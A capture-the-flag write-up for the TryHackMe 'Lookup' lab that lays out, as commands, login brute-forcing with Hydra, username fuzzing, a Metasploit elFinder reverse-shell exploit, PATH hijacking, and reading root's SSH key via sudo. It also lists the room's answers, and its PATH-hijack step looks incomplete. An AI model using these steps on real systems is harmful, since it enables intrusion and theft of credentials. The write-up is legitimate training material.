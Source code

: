 # Lookup | TryHackMe

## Overview
- **Room:** Lookup  
- **Difficulty:** easy  
- **Tags:** Web, Fuzzing, Hydra, PrivEsc  

---

## Enumeration

### Nmap
```bash
nmap -sC -sV -oN <IP>
```

**Open Ports:**
- 22/tcp - SSH  
- 80/tcp - HTTP  

---

### Web Enumeration
Visited `http://<IP>/` → login page.  

Tested `admin:admin` → username valid, password invalid.  

---

### Brute-force
Used Hydra for password guessing:  
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt <IP> http-post-form "/login:username=^USER^&password=^PASS^:Invalid password"
```
No success.  

Then fuzzed for other usernames with ffuf:  
```bash
ffuf -u http://<IP>/login -d "username=FUZZ&password=test" -X POST -w /usr/share/wordlists/common.txt -fr "Invalid username"
```
Discovered user: **jose**  

Brute-forced again with Hydra:  
```bash
hydra -l jose -P /usr/share/wordlists/rockyou.txt <IP> http-post-form "/login:username=^USER^&password=^PASS^:Invalid password"
```
Success: `jose : password123`  

---

## Exploitation

Logged in as jose.  

Discovered subdomain `files.lookup.thm`. Added to `/etc/hosts`.  

Accessed `http://files.lookup.thm/` → running **elFinder** file manager.  

Identified version vulnerable to RCE. Used Metasploit:  
```bash
msfconsole
search elfinder
use exploit/multi/http/elfinder_php_connector_exec
set RHOSTS files.lookup.thm
set RPORT 80
set TARGETURI /
set LHOST <your_IP>
run
```
Got shell as `www-data`.  

---

## Privilege Escalation

Ran `linpeas.sh` → found process `pwn` running as root.  

Binary reads `$PATH`. Exploit with fake `id`:  
```bash
echo "id_think" > /tmp/id
chmod +x /tmp/id
export PATH=/tmp:$PATH
```
Now `pwn` executes `/tmp/id` → shell as **think**.  

---

### From think to root
Checked sudo:  
```bash
sudo -l
```
Allowed to run `look`. Checked GTFOBins → `look` can read files.  

```bash
sudo look '' /root/.ssh/id_rsa
```
Extracted root’s private key, logged in as root.  

---

## Flags
- **User.txt** → `/home/think/user.txt`  
- **Root.txt** → `/root/root.txt`  

---

## Answers to Room Questions
1. **What valid username was discovered?** → `jose`  
2. **What was jose’s password?** → `password123`  
3. **Which vulnerable app was running on the subdomain?** → `elFinder`  
4. **What binary was abused for privilege escalation?** → `pwn`  
5. **What command allowed root private key extraction?** → `sudo look`  

---

## Lessons Learned
- Username fuzzing can reveal hidden accounts.  
- Subdomain discovery is key to hidden services.  
- `$PATH` hijacking remains a powerful PrivEsc method.  
- GTFOBins is invaluable for exploiting sudo misconfigs.  
